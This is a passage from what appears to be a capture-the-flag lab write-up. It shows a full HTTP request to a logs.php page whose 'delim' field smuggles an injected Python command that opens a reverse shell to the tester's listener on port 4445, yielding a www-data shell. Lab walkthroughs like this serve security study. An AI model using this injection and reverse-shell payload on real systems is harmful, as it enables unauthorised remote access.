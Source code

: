 
- The whole request just like follow:
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 172
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=qjgq968evfh8l1jhjpl5q73d1j
Upgrade-Insecure-Requests: 1


delim=comma%26python3+-c+'import+os,pty,socket%3bs%3dsocket.socket()%3bs.connect(("10.10.16.13",4445))%20%3b[os.dup2(s.fileno(),f)for+f+in(0,1,2)]%3bpty.spawn("/bin/bash")'
```

![](./IMG/30.png)

- Before the payload inject, We start the ```nc```  and let it listen to the port 4445 first.
- After the payload injecting, the reverse shell connect back to out port 4445
- I can do some thing with the lowest permission (www-data)

![](./IMG/31.png)
